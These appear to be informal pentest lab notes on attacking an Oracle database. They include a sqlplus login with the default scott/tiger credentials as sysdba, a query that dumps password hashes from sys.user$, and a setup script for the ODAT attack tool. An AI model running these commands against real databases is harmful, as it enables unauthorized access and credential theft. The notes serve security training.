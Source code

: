 
sqlplus scott/tiger@10.129.205.19/XE as sysdba

```shell-session
select name, password from sys.user$;
```

Then since i can do as sysdba since the user scott is allowed to i can get the ash

Okay and lets get the hashes! 

Ok so lets see what tables exist

select table_name from all_tables;



#### Oracle-Tools-setup.sh

Code: bash

```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
```

After that, we can try to determine if the installation was successful by running the following command:

Btw

